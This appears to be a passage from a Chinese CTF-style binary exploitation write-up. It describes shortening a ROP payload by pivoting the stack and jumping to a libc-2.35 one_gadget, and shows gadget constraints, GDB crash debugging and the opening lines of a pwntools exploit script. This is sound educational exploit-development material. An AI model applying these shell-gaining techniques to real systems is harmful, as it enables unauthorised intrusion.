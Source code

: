 
![](image-20231207162602156.png)



这样利用需要发送0x50 bytes的payload，有没有什么方法再缩短一下？请看下文。



### 0x06. fx5



如果说还有哪里能用来缩短payload，那大概就是rop chain本身了。在fx4中我们使用了0x20 bytes去调用system。这次我们尝试直接调用one_gadget。



在one_gadget的结果中有如下一条，似乎只要让rsp指向一片空内存即可，这配合我们的栈迁移gadget简直刚好。

```
$one_gadget ./libc-2.35.so -l1
...

0x10dbb2 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, [rsp+0xf0])
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
  [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL || [rsp+0xf0] is a valid envp
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

...
```



但如果我们带着下面的三个跑到这个onegadget，会发现虽然貌似execve成功了，但程序还是crash了：

```
[rsp+0x70] == NULL
[rsp+0xf0] == NULL
[rsp+0x40] == NULL
```

![](image-20231207164330720.png)

![](image-20231207164338252.png)

设置好`set follow-fork-mode parent`重新测试，崩溃的原因是null-deref。

![](image-20231207164423438.png)

而通过这个跟踪，这个rdi的值其实来着前面的`[rsp+0x40]`。这里我尝试让这个值不为0，反而执行成功了（有点迷）：

给的`[rsp+0x40]`是这里的`0x7ffff7facaa0`，rsp是`0x7ffff7fad830`：

![](image-20231207164648648.png)



- 完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")
```
